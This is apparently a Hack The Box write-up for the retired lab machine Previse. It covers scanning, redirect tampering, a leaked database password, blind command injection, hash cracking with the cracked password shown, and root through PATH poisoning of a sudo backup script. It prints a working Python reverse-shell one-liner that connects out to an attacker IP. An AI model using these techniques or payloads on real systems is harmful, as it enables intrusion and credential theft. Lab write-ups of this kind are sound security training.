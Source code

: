 ```yaml
---
title: "Previse Hackthebox writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/Previse/start.png"
tags: ["Hackthebox", "RCE", "path poisoning"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-01-27T00:45:08+02:00
toc: true
draft: false
---
```


In this Writeup you will find walkthrough of the retired machine previse From Hackthebox

<!--more-->

![image](/assets/images/Previse/start.png)

> export IP=10.10.11.104

# scanning :

## intial

```bash
sudo nmap -sV -vv $IP -oN nmap/intial
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

visiting the web page :

![image](/assets/images/Previse/20211002032239.png)

tried some sqli but not worked

## directory brute-force :

```bash
$ gobuster dir -u http://10.10.11.104/ -w /usr/share/dirb/wordlists/big.txt -x php,txt
```

found :

```bash
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
```

you can use curl without enabling redirect and will notice the same thing immediately

```bash
curl http://10.10.11.104/accounts.php -vvv
```

But i opened up my burpsuite and observe the requests and response for /accounts.php

- there is a redirect happen to /login.php again .
- i do intercept the redirect and found :

![image](/assets/images/Previse/20211002033401.png)

hence i want to view and interact with this page , i changed the
HTTP 302 redirect to HTTP 200 OK

![image](/assets/images/Previse/20211002033552.png)

forward it :

![image](/assets/images/Previse/20211002033625.png)

i made an account and then redirected me to /login.php again so i logged in successfully

![image](/assets/images/Previse/20211002034057.png)

navigating through the tabs found :

![image](/assets/images/Previse/20211002034221.png)

so i downloaded the backup and found :

![image](/assets/images/Previse/20211002034310.png)

in config.php :

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

after some navigating in the files :
in /logs.php

![image](/assets/images/Previse/20211002034826.png)

- so we can see the exec function which most likely indicating RCE , and python is executing on a script and seems the script saves output in out.log .

- understanding the logic at my local machine :

![image](/assets/images/Previse/20211002041124.png)

- so we can inject any command like : `delim=comma;INJECTION` However it won't be printed in logs.out so it is a Blind RCE .
- we can get a shell immediatley

[+] from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.120",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

![image](/assets/images/Previse/20211002041602.png)

![image](/assets/images/Previse/20211002041508.png)

```python
# stablizie the shell
$ python -c "import pty;pty.spawn('/bin/bash')"
```

hence we are in the machine now so we can access local host and view data base :D

```bash
mysql -h localhost -u root -p previse
```

```sql

mysql> SELECT table_name FROM information_schema.tables;
```

![image](/assets/images/Previse/20211002042525.png)

- so we need m4lware password only `i guess :3` let's get it and try crack the hash from here:
  https://gist.github.com/dwallraff/6a50b5d2649afeb1803757560c176401

- we can see it is a md5crypt hash

```bash
$ hashcat -m 500 -a 0 hashed_m4lware /usr/share/wordlists/rockyou.txt
# 500 : md5crypt
# 0   : straight attack mode
# output :
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

![image](/assets/images/Previse/20211002043827.png)

## privilege escalation

![image](/assets/images/Previse/20211002043918.png)

so let's read the script :

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

```

- so it simply makes a backup for the logs with gzip .
- we should focus on how to manipulate gzip .

### PATH poisoning

- we can see here :
  https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

we can use that so when we execute this as root "with sudo" gzip will refer to the /tmp in the path

![image](/assets/images/Previse/20211002044848.png)

i don't know why but the shell doesn't return any result although i gained the root access so i make a reverse shell and it worked perfectly

![image](/assets/images/Previse/20211002045036.png)

# Pwned
